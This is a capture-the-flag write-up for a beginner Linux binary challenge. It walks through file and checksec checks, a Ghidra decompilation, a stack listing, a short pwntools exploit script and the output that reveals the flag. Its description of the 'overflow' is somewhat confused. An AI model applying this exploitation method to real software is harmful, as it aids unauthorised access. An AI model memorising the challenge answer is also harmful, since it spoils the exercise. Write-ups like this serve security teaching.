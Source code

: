 ### Binary Exploitation

### Source: TFC_21

### Basic File Checks

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/secret]
└─$ chmod +x secret 
                                                                                                                                                                                                                   
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/secret]
└─$ file secret 
secret: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c218ee479df643755efef28fb34263d506c68e61, not stripped
                                                                                                                                                                                                                   
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/secret]
└─$ checksec secret 
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Documents/Pentest/BOF/03-begineer_bof/secret/secret'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We're dealing with a x64 binary which is not stripped

The protections enabled are `NX, PIE`

Lets run the binary and see what it does

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/secret]
└─$ ./secret      
Tell me a secret
pwned
I have already heard that one, sorry
```

It asks for an input then prints some word

Lets decompile using ghidra to take a look at its functions

I'll take a look at the main function and rename some values to make it more understandable

```
int main(void)

{
  undefined8 input;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Tell me a secret");
  input = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  fgets((char *)&input,0x20,stdin);
  if (((int)input == 0xaabbccdd) && (input._4_4_ == -0x55443323)) {
    puts("hmm, interesting");
    system("cat flag");
    putchar(10);
  }
  else {
    puts("I have already heard that one, sorry");
  }
  return 0;
}
```

We see its a simple C code here's what it does

```
1. Prints out tell me a secret
2. Receives input which has an offset of 32bytes 
3. Does an if check which compares the user input to 0xaabbccdd twice
```

So on checking the stack layout I see that the input variable starts with an offset of 0x28 bytes but the input being received is 0x20 bytes

```
                             **************************************************************
                             *                       THUNK FUNCTION                       *
                             **************************************************************
                             thunk undefined frame_dummy()
                               Thunked-Function: register_tm_clones
             undefined         AL:1           <RETURN>
                             frame_dummy                                     XREF[3]:     Entry Point(*), 
                                                                                          __libc_csu_init:00101281(c), 
                                                                                          00103de8(*)  
        00101170 e9 7b ff        JMP        register_tm_clones
                 ff ff
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             int __stdcall main(void)
             int               EAX:4          <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[1]:     001011bf(W)  
             undefined8        Stack[-0x18]:8 local_18                                XREF[1]:     001011b7(W)  
             undefined8        Stack[-0x20]:8 local_20                                XREF[1]:     001011af(W)  
             undefined8        Stack[-0x28]:8 input                                   XREF[5,1]:   001011a7(W), 
                                                                                                   001011ce(*), 
                                                                                                   001011df(*), 
                                                                                                   001011e3(*), 
                                                                                                   001011ec(*), 
                                                                                                   001011f4(*)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:001010ad(*), 00102084, 
                                                                                          00102130(*)  
 ```
 
 From this we can conclude that we have addition 0x8 byte
 
 This is good because we know that the program sets the input to be 0 and we have total control over the input variable
 
 So we can take advantage of the 0x8 byte left by overwriting the input variable with the value the if statement checks 
 
 Here's the python script 
 
 ```
 from pwn import *

sh = process("./secret")
print(sh.recv().decode())
sh.sendline(p32(0xaabbccdd)*2)
print(sh.recvall().decode())
 ```
 
 On running it we get the flag
 
 ```
 ┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/secret]
└─$ python2 exploit.py
[+] Starting local process './secret': pid 77645
Tell me a secret

[+] Receiving all data: Done (40B)
[*] Process './secret' stopped with exit code 0 (pid 77645)
hmm, interesting
FLAG{Y0U_N33D_T0_PWN}
```

And we're done



<br> <br>
[Back_To_Home](../../index.md)
</br>
